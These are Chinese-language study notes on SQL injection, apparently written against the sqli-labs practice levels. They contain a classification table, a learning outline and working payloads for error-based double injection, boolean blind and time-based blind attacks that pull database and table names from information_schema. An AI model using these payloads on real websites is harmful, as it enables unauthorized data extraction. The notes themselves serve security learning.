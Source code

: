 # SQL注入大型笔记
##总纲
###0x00 SQL注入分类

|      |      |                  |                    |                          |         | Level |
| ---- | ---- | ---------------- | ------------------ | ------------------------ | ------- | ----- |
| 1    | GET  | Error Based      |                    | Single Quotes            | String  | 1     |
| 2    | GET  | Error Based      |                    |                          | Integer | 1     |
| 3    | GET  | Error Based      |                    | Single Quotes with twist | String  | 1     |
| 4    | GET  | Error Based      |                    | Double Quotes            | String  | 1     |
| 5    | GET  | Double Injection |                    | Single Quotes            | String  | 1     |
| 6    | GET  | Double Injection |                    | Double Quotes            | String  | 1     |
| 7    | GET  | Dump into file   |                    | String                   | String  | 1     |
| 8    | GET  | Blind            | Boolian Based      | Single Quotes            |         | 1     |
| 9    | GET  | Blind            | Time Based         | Single Quotes            |         | 1     |
| 10   | GET  | Blind            | Time Based         | Double Quotes            |         | 2     |
| 11   | POST | Error Based      |                    | Single Quotes            | String  | 1     |
| 12   | POST | Error Based      |                    | Double Quotes with twist | String  | 1     |
| 13   | POST | Double Injection |                    | Single Quotes with twist | String  | 1     |
| 14   | POST | Double Injection |                    | Double Quotes With twist | String  |       |
| 15   | POST | Blind            | Boolian/Time Based | Single Quotes            | String  |       |
| 16   | POST | Blind            | Boolian/Time Based | Double Quotes            | String  |       |
| 17   | POST | Error Based      | Update Query       |                          | String  |       |
| 18   | POST | Header Injection | User Agent Field   | Error Based              |         |       |
| 19   | POST | Header Injection | Referer Field      | Error Based              |         |       |
| 20   | POST | Cookie Injection | User Agent Field   | Error Based              |         |       |
| 21   |      |                  |                    |                          |         |       |
| 22   |      |                  |                    |                          |         |       |
| 23   |      |                  |                    |                          |         |       |
| 24   |      |                  |                    |                          |         |       |
| 25   |      |                  |                    |                          |         |       |
| 26   |      |                  |                    |                          |         |       |
| 27   |      |                  |                    |                          |         |       |
| 28   |      |                  |                    |                          |         |       |
| 29   |      |                  |                    |                          |         |       |
| 30   |      |                  |                    |                          |         |       |
| 31   |      |                  |                    |                          |         |       |
| 32   |      |                  |                    |                          |         |       |
| 33   |      |                  |                    |                          |         |       |
| 34   |      |                  |                    |                          |         |       |
| 35   |      |                  |                    |                          |         |       |
| 36   |      |                  |                    |                          |         |       |
| 37   |      |                  |                    |                          |         |       |
| 38   |      |                  |                    |                          |         |       |
| 39   |      |                  |                    |                          |         |       |
| 40   |      |                  |                    |                          |         |       |
| 41   |      |                  |                    |                          |         |       |
| 42   |      |                  |                    |                          |         |       |
| 43   |      |                  |                    |                          |         |       |
| 44   |      |                  |                    |                          |         |       |
| 45   |      |                  |                    |                          |         |       |
| 46   |      |                  |                    |                          |         |       |
| 47   |      |                  |                    |                          |         |       |
| 48   |      |                  |                    |                          |         |       |
| 49   |      |                  |                    |                          |         |       |
| 50   |      |                  |                    |                          |         |       |
### 0x01 注入基本步骤

* 寻找可能的注入点
* 验证注入点
* 检查过滤
* 构造payload
* 手工，工具，脚本

### 0x02 学习目标

* 通过手工注入理解SQL注入原理
* 使用工具高效地发现和利用SQL注入漏洞
* 用脚本处理工具不能解决的问题

### 0x03 基础知识

* 基本SQL语句
* PHP等后端语言
* Python等脚本语言
* 网站基本结构
* 关系型数据库

### 0x04 拓展

* NoSQL数据库
* Java，Python，Node.js等其他后端语言
* 其他数据库
* 相同原理的XSS, XXE

## CheatSheet



##实战

### 基于错误的注入

单引号测试

双引号测试

###双注入

只显示注入成功和不显示

接下来我们将上面的成果用到前台注入测试一下，我们已经对后台的 Sql 语句进行了简单的
测试，Select * from table where id=”input” 那么我们的注入语句可以这样写入
Select * from table where id=”input and 攻击代码 --+” 现在我们来测试一下
" and 1 --+
将 1 替换成我们在 Mysql 中联系的语句
" and (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))name from
information_schema.tables group by name) --+
" and (select 1 from (select count(*),concat(0x3a,0x3a,(select
database()),0x3a,0x3a,floor(rand()*2))name from information_schema.tables group by name)) --+
" AND (select 1 from (select count(*),concat(0x3a,0x3a,(select
database()),0x3a,0x3a,floor(rand()*2))name from information_schema.tables group by name)b)
--+
多刷新几次，直至出错
可以看到，跟我们之前联系的出错是一样的，这样我们就在前台得到了数据库里的敏感信息
爆出当前数据库的表名

基于布尔的盲注

' and (select ascii(substr(database(),1,1)) =88 )—+返回错误

' and (select ascii(substr(database(),1,1)) =115)--+ 返回正常

基于时间的盲注

之前我们猜测后台的 Sql 语句为 Select * from table where id = input
如果它成立的话，那我们测试 id=1 and sleep(10) -+ 前台页面应该会等待 10 秒钟才能成功加
载，那么我们试一下。
它并没有等待 10 秒钟，直接返回了结果，这说明我们的语句有错误，我们多测试几个语句
Id=1’ and sleep(10) --+
Id=1’) and sleep(10) --+
Id=1” and sleep(10) --+
Id=1”) and sleep(10) --+
其中 Id=1’ and sleep(10) --+的执行结果是我们预期的结果，所以我们修改 Sql 语句为
Select * from table where id = ‘input’ 这样我们就可以构造注入语句 Id=1’ and 攻击代码 --+
我们将后台测试的 sql 语句拿到前台测试
id=1' and (select if((select database())='security',sleep(10),NULL))--+
我们看到程序加载了 10 秒钟后正确返回，我们将更复杂的语句拿过来测试
id=1' and (select if(ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))=111,sleep(10),NULL))--+
程序直接返回，没有等待
id=1' and (select if(ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))=101,sleep(10),NULL))--+
等待 10 秒钟返回正常页面
我们可以根据我们想要获取的信息去构造我们的语句。
http://www.xmanblog.net/
26